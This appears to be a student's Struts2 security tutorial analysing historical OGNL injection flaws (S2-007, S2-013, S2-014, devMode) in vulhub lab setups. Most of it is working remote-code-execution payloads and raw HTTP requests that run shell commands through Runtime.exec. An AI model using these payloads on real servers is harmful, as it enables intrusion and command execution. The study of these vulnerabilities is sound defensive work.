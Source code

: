 # struts2 security practice

by Haoling@BUAA

### motivation
This article aims to analyze the root causes of the vulnerability of struts2 in the history, which includes S2-001....., you could download most of the docker's environments in vulhub github.  

However, the content in the vulhub mainly focuses on the vulnerable environment and the corresponding payload to play with the environments, without the insight of what leads to the vulnerability, and the analysis of exploiting payload. 

With the tutorial in this article, we are capable to establish the environment by ourself, and debug with the vulnerability to find out what happens inside the deployed java packages.


### prerequisites 

Intellij IDEA (ultimate edition)
JDK/JRE
tomcat server
docker


### analysis of S2-001




### analysis of S3-007

the environment used for the analysis:
https://github.com/vulhub/vulhub/raw/master/struts2/s2-007/S2-007.war

attacking payload:

```ongl
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

raw http request example
```
POST http://127.0.0.1:8081/S2_007_war/user.action HTTP/1.1
Host: ss:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 305

name=a&email=b&age='+%2b+(%23_memberAccess["allowStaticMethodAccess"]%3dtrue,%23foo%3dnew+java.lang.Boolean("false")+,%23context["xwork.MethodAccessor.denyMethodExecution"]%3d%23foo,%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('ls -la').getInputStream()))+%2b+'
```

the description of this vulnerability:
User input is evaluated as an OGNL expression when there's conversion error.

**small tips**
To debug with the packed library of struts2, you are supposed to right click on the package, and choose "Add as library".


concatenation of the payload:
```java
this.getOverrideExpr(invocation, value)
```
invoke function to execute the OGNL expression
```java
return invocation.invoke();
```

### analysis of S2-013 & S2-014
attacking payload for S2-013:
```ognl
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls -la').getInputStream())}
``` 
attacking payload for S2-014:
```ognl
${(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app"))}
```


raw http payload:
```
GET http://127.0.0.1:8081/S2_013_war/link.action?a=%24%7b%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%5b%22%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%22%5d%3d%74%72%75%65%2c%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%6c%73%20%2d%6c%61%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%7d HTTP/1.1
Host: ss:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5
Connection: close
```
the description of this vulnerability:
includeParams attribute of the URL and Anchor tag, afterward use as request parameter of an url or a tag, will cause a further evaluation.
when url/A tag tries to resolve every parameter present in the original request, this will evaluate the input from any request parameters as an OGNL expression, the Struts and OGNL library could be easily bypassed.

**small tips**
before you try to inject the command into the OGNL, you need to enable static method access and arbitrary method execution first.


vulnerable function call stack:

buildParameterSubstring
translateAndEncode
translateVariable:287, UrlHelper(org.apache.struts2.views.util)
TextParseUtil.translateVariables



### how to excavate the possible vulnerabilities in  struts2?


raw http request payload:
```
GET http://127.0.0.1:8081/S2_008_war/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29) HTTP/1.1
Host: ss:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5
Connection: close
```
